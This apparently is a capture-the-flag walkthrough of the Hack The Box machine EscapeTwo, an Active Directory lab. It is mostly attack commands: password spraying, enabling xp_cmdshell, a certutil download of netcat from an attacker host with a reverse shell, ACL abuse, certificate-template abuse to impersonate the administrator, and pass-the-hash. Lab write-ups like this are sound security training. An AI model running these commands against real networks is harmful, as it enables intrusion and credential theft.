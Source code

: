 # EscapeTwo HTB Walkthrough

[![Hack The Box](https://img.shields.io/badge/HackTheBox-EscapeTwo-green?logo=hackthebox)](https://app.hackthebox.com/machines/642)
[![Difficulty: Easy](https://img.shields.io/badge/Difficulty-Easy-green)](https://github.com/HTB/Challenges)
[![Platform: Windows](https://img.shields.io/badge/Platform-Windows-blue)](https://github.com/HTB/Challenges)
[![Topic: Active Directory](https://img.shields.io/badge/Topic-Active%20Directory-yellowgreen)](https://en.wikipedia.org/wiki/Active_Directory)

---

## Overview

EscapeTwo is an easy Windows domain machine showcasing a full AD domain takeover:
- Starting with user credentials for domain enumeration and SMB share access,
- Fixing a corrupted Excel file header to extract hidden credentials,
- Using extracted credentials for MSSQL authentication and command execution (xp_cmdshell),
- Leveraging reverse shell with Netcat and certutil for lateral movement,
- Performing password spraying on WinRM and SMB for further access,
- Enumerating and abusing AD ACLs to control certificate services user,
- Exploiting misconfigured Active Directory Certificate Services (ADCS) to impersonate domain admin,
- Finally, gaining domain admin access and retrieving the root flag.

---

## Table of Contents

- [1. Initial Enumeration](#1-initial-enumeration)
- [2. SMB Share Enumeration and File Extraction](#2-smb-share-enumeration-and-file-extraction)
- [3. Repairing Corrupted Excel File](#3-repairing-corrupted-excel-file)
- [4. Password Spraying and MSSQL Access](#4-password-spraying-and-mssql-access)
- [5. Enabling xp_cmdshell and Reverse Shell](#5-enabling-xp_cmdshell-and-reverse-shell)
- [6. Lateral Movement Using WinRM](#6-lateral-movement-using-winrm)
- [7. Active Directory Enumeration with BloodHound](#7-active-directory-enumeration-with-bloodhound)
- [8. ACL Abuse and ADCS Enumeration](#8-acl-abuse-and-adcs-enumeration)
- [9. Exploiting Vulnerable Certificate Template](#9-exploiting-vulnerable-certificate-template)
- [10. Domain Admin Access and Root Flag](#10-domain-admin-access-and-root-flag)
- [11. Stepwise PoC](#11-stepwise-poc)

---

## 1. Initial Enumeration
```
ports=$(nmap -p- --min-rate=1000 -T4 10.129.232.128 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.129.232.128
```

- Scans all TCP ports, extracts open ports, then runs version detection and default NSE scripts on those ports.
- Open services included SMB(445), LDAP(389), Kerberos(88), and MSSQL(1433).
 ```
 echo "10.129.232.128 sequel.htb dc01.sequel.htb" | sudo tee -a /etc/hosts`
 ```
- Adds IP to hosts for domain resolution.

---

## 2. SMB Share Enumeration and File Extraction
```
netexec smb 10.129.232.128 -u rose -p 'KxEPkKe6R8su' --shares
impacket-smbclient sequel.htb/rose:'KxEPkKe6R8su'@10.129.232.128
use Accounting Department
ls
get accounts.xlsx`
```
- Lists SMB shares accessible with user `rose`.
- Downloads `accounts.xlsx` – a corrupted Excel file suspected to contain secrets.

---

## 3. Repairing Corrupted Excel File
```
file accounts.xlsx
7z x accounts.xlsx
hexedit accounts.xlsx
xxd accounts.xlsx
```
- Determine file type: `.xlsx` files are ZIP archives.
- Extraction fails due to corrupted header bytes `50 48 04 03`.
- Manual hex edit to fix header to standard ZIP magic bytes `50 4B 03 04`.
- File opens successfully, revealing credentials inside.

---

## 4. Password Spraying and MSSQL Access

`netexec smb 10.129.232.128 -u users.txt -p pass.txt`

- Password spray with user and password lists to find valid combinations (finds valid user `oscar`).

```
netexec mssql 10.129.232.128 -u sa -p 'MSSQLP@ssw0rd!' --local-auth
impacket-mssqlclient sequel.htb/'sa:MSSQLP@ssw0rd!'@10.129.232.128
```
- Connect to MSSQL with high-privilege `sa` account using found credentials.

Enable command execution:
```
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXEC xp_cmdshell 'whoami';
```
- Enables `xp_cmdshell` procedure to run OS commands, reveals `sequel\sql_svc` user.

---

## 5. Enabling xp_cmdshell and Reverse Shell
```
nc -lnvp 4455
python3 -m http.server 4000
```
- Start a Netcat listener and simple HTTP server locally.
- Start a Netcat listener and simple HTTP server locally.

```
EXEC xp_cmdshell 'certutil -urlcache -split -f http://10.10.14.96:4000/nc64.exe C:\Users\sql_svc\Desktop\nc64.exe';
EXEC xp_cmdshell 'C:\Users\sql_svc\Desktop\nc64.exe -e cmd.exe 10.10.14.96 4455';
```
- Downloads Netcat to victim using `certutil`.
- Executes Netcat to connect back and spawn a reverse shell on attacker machine.

---

## 6. Lateral Movement Using WinRM
```
net user
nxc winrm sequel.htb -u Users.txt -p 'WqSZAF6CysDQbGb3'
evil-winrm -i 10.129.232.128 -u ryan -p 'WqSZAF6CysDQbGb3'
```
- Enumerate users on Windows.
- Spray Password on WinRM port 5985 to find valid login (`ryan`).
- Use Evil-WinRM to spawn remote PowerShell session as `ryan`.
- Retrieve user flag for confirmation.

---

## 7. Active Directory Enumeration with BloodHound

`bloodhound-python -u ryan -p 'WqSZAF6CysDQbGb3' -d sequel.htb -ns 10.129.232.128 -c all --zip`

- Perform comprehensive enumeration of AD structure, permissions, and sessions.
- Identify privilege escalation paths involving `ca_svc` account.

---

## 8. ACL Abuse and ADCS Enumeration
```
python owneredit.py -action write -new-owner 'ryan' -target 'ca_svc' sequel.htb/ryan:'WqSZAF6CysDQbGb3'
python dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' sequel.htb/ryan:'WqSZAF6CysDQbGb3'
```
- Change ownership and grant `FullControl` to `ryan` over `ca_svc`.
- Also we can reset `ca_svc` password via PowerView or similar tools.

---

## 9. Exploiting Vulnerable Certificate Template
 ```
 certipy shadow -account ca_svc -u ryan@sequel.htb -p 'WqSZAF6CysDQbGb3' auto 
 certipy find -u 'ca_svc@sequel.htb' -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -stdout -text
 certipy template -u 'ca_svc@sequel.htb' -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -template 'DunderMifflinAuthentication' -save-old
 certipy req -u 'ca_svc@sequel.htb' -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -ca 'sequel-DC01-CA' -template 'DunderMifflinAuthentication' -upn     
 administrator@sequel.htb -dns dc01.sequel.htb	
 certipy auth -pfx administrator_dc01.pfx
```
- Enumerate CA templates and spot misconfigurations.
- Modify template to remove approval requirement and enable client authentication.
- Request a certificate impersonating administrator.
- Authenticate with the certificate and extract domain admin NTLM hash.

---

## 10. Domain Admin Access and Root Flag
```
evil-winrm -i 10.128.124.12 -u Administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff
whoami
type C:\Users\Administrator\Desktop\root.txt
```
- Use domain admin NTLM hash for pass-the-hash WinRM login.
- Gain full domain admin shell and capture root flag.

---

## 11. Stepwise PoC

<details>
<summary>💻<strong>(click to expand)</strong> </summary>
<img width="1567" height="841" alt="39" src="https://github.com/user-attachments/assets/cf78e34a-3d0b-4eba-b639-657c3207a13f" />
<img width="1163" height="746" alt="38" src="https://github.com/user-attachments/assets/da0d5c09-c9f9-4460-8e48-01f1d860b11b" />
<img width="1090" height="94" alt="37" src="https://github.com/user-attachments/assets/fa326e43-0f87-4fae-80d0-1ba35e1adc18" />
<img width="1827" height="468" alt="36" src="https://github.com/user-attachments/assets/ae250058-a54a-45de-bcdf-3b4808ff4148" />
<img width="1224" height="622" alt="35" src="https://github.com/user-attachments/assets/6264ec1c-f2dc-4f0e-af5e-c2da8b4e02a1" />
<img width="1908" height="147" alt="34" src="https://github.com/user-attachments/assets/29b6aaa8-2abd-4668-b769-e8a1fa85d4c4" />
<img width="1835" height="726" alt="33" src="https://github.com/user-attachments/assets/6e94d1d3-a9e7-4f54-9a8f-6cd5b31eb144" />
<img width="838" height="356" alt="32" src="https://github.com/user-attachments/assets/e0670fcf-38fa-414d-95f5-0018013d7ad2" />
<img width="1213" height="843" alt="31" src="https://github.com/user-attachments/assets/57a3e493-1569-4cde-9b44-a19696eda0d8" />
<img width="1200" height="816" alt="30" src="https://github.com/user-attachments/assets/11129b40-7bd6-4b84-ab19-d9aad51dbc28" />
<img width="1107" height="662" alt="29" src="https://github.com/user-attachments/assets/a8e0e96f-bef7-4918-8afb-5eff7c8844ed" />
<img width="1381" height="341" alt="28" src="https://github.com/user-attachments/assets/56c42ec9-919b-4ae6-80ee-9429d9ba82ac" />
<img width="1399" height="597" alt="27" src="https://github.com/user-attachments/assets/796b65f9-7d01-4e5c-bd7f-3f6b066c7431" />
<img width="1410" height="811" alt="26" src="https://github.com/user-attachments/assets/5151efae-e489-4f7a-bb5c-f86837eb53c7" />
<img width="749" height="170" alt="25" src="https://github.com/user-attachments/assets/666da45b-b6d6-418a-a0c0-924a0fd2092b" />
<img width="843" height="136" alt="24" src="https://github.com/user-attachments/assets/d23abef6-7ce1-462e-ac88-f5368e5caf20" />
<img width="1405" height="485" alt="23" src="https://github.com/user-attachments/assets/0564f09f-007f-4a6b-b692-eed71288a235" />
<img width="1698" height="772" alt="22" src="https://github.com/user-attachments/assets/1c69f4a6-56ea-4708-9614-17b8b70abfcf" />
<img width="867" height="501" alt="21" src="https://github.com/user-attachments/assets/ada0b434-acf4-468a-8907-fed186ba56e1" />
<img width="920" height="718" alt="20" src="https://github.com/user-attachments/assets/0640dfdf-667d-443e-9334-8783ab7deb1b" />
<img width="756" height="707" alt="19" src="https://github.com/user-attachments/assets/6726c592-3a77-4f8f-adc7-75a3edbacfba" />
<img width="948" height="380" alt="18" src="https://github.com/user-attachments/assets/6763d4a1-5373-4952-a383-278ae40c5662" />
<img width="1055" height="471" alt="17" src="https://github.com/user-attachments/assets/6b46c9bd-0378-4ece-8dd7-60dab7bc2fe8" />
<img width="1003" height="487" alt="16" src="https://github.com/user-attachments/assets/ce2f4474-46e9-4f5a-b943-871f87cd5c95" />
<img width="976" height="730" alt="15" src="https://github.com/user-attachments/assets/92426af9-b80f-4dae-828d-6f856206a30c" />
<img width="1593" height="848" alt="14" src="https://github.com/user-attachments/assets/5a0817fc-c347-40eb-8698-6166d9567721" />
<img width="1026" height="281" alt="13" src="https://github.com/user-attachments/assets/87cad8f2-7a3f-4e75-b1da-e47eb4a82156" />
<img width="1007" height="304" alt="12" src="https://github.com/user-attachments/assets/5518be24-e84c-44f2-872a-35ba15410648" />
<img width="1010" height="212" alt="11" src="https://github.com/user-attachments/assets/c3a935f3-c6c9-4309-aec8-d80d04944e44" />
<img width="1593" height="711" alt="10" src="https://github.com/user-attachments/assets/8cc34080-7466-4aba-b90e-77dbf06a296b" />
<img width="1015" height="356" alt="9" src="https://github.com/user-attachments/assets/3c88a4f3-850c-4a52-aebc-0469eaa36d2b" />
<img width="1010" height="233" alt="8" src="https://github.com/user-attachments/assets/83a27c6d-c699-4552-bbb7-ae764d6d7025" />
<img width="1591" height="663" alt="7" src="https://github.com/user-attachments/assets/8140794e-8d30-4c0c-a6d2-c1dfa0eb2a80" />
<img width="1829" height="669" alt="6" src="https://github.com/user-attachments/assets/fc9acdee-23bd-40b6-9252-49e88eda588d" />
<img width="1227" height="691" alt="5" src="https://github.com/user-attachments/assets/52dca908-e45d-4e9c-acea-5857fdfd71cc" />
<img width="1016" height="287" alt="4" src="https://github.com/user-attachments/assets/526a5f64-d973-4f41-bfcb-becbeaaf0bf0" />
<img width="1008" height="452" alt="3" src="https://github.com/user-attachments/assets/fef3eb82-7daf-4cff-a6c7-6a6291d7a28b" />
<img width="1011" height="509" alt="2" src="https://github.com/user-attachments/assets/60caf3be-d8a5-4a40-ab17-9083b37c7c9a" />
<img width="1021" height="478" alt="1" src="https://github.com/user-attachments/assets/05301ce8-6ced-4939-85b8-36b4e99999a1" />

</details>

---

## Tools & References

- **NetExec (nxc):** Network service exploitation and spraying
- **Impacket:** SMB and MSSQL clients
- **BloodHound:** AD permission visualizer and enumeration
- **Certipy:** ADCS enumeration and exploitation
- **Evil-WinRM:** Remote PowerShell shell over WinRM
- **Standard Linux tools:** `nmap`, `netcat`, `file`, `7z`, `hexedit`

---

## Final Notes

- Master the flow from enumeration → foothold → lateral movement → escalation.
- ADCS misconfiguration remains a powerful vector in domain takeovers.
- Proper ACL management and template hardening are critical defenses.

---




